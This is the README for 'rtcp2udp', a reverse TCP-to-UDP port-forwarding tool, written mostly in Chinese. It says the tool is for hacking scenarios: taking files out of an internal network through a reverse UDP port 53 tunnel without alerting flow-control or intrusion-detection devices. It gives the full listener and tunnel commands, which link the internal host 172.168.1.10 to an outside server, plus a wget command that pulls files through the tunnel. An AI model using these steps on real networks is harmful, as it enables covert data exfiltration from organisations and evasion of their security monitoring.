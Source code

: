 # rtcp2udp
反向端口转发工具 v 1.0  
Reverse TCP Port to UDP Forwarding Tools  
  
Last Update: 2016年04月29日  
问题反馈: ringzero@0x557.org  

## 更稳定的方法
[一个稳定的UDP反向端口映射方法](https://github.com/ring04h/rtcp2udp/blob/master/udptunnel.md)  

## 实例图
![](https://github.com/ring04h/rtcp2udp/blob/master/portmap.png?20160429)  

## 描述
在Hack场景中，Hack人员需要从内网获取指定文件，并向外网传输时，不被流控设备，入侵检测设备所警觉；  
本工具的原理为，向外网服务器建立一个反向的UDP(53)隧道,用于文件传输；  

## 网络传输流程
外网客户端连接 119.29.29.29 的80端口，等于连接内网 172.168.1.10 服务器的80端口，隧道采用UDP协议传输  

## 使用说明
Http Server  <- 内网机器 -> Internet Server (UDP隧道)  
Client -> tcp:119.29.29.29:80 -> udp:119.29.29.29:53 -> tcp:172.168.1.10:80

* 在你的外网服务器监听用于服务的 UDP&TCP 端口
这里假设场景,你的外网服务器 IP 为 119.29.29.29
```shell
[root@localhost ~]# python tcp2udp.py -t 0.0.0.0:80 -u 0.0.0.0:53
[INFO] UDPServer 0.0.0.0:53 Listening Success...
[INFO] TCPServer 0.0.0.0:80 Listening Success...
```
* 在内网机器打通与外网服务器之间的 UDP 隧道
```shell
[root@localhost ~]# python rtcp2udp.py -t 172.168.1.10:80 -u 119.29.29.29:53
[INFO] Client Bridge Connection Success...
```
* 当隧道打通后，就可以开始文件传输服务
```shell
[root@localhost ~]# wget http://119.29.29.29/src/file.tar.gz
```

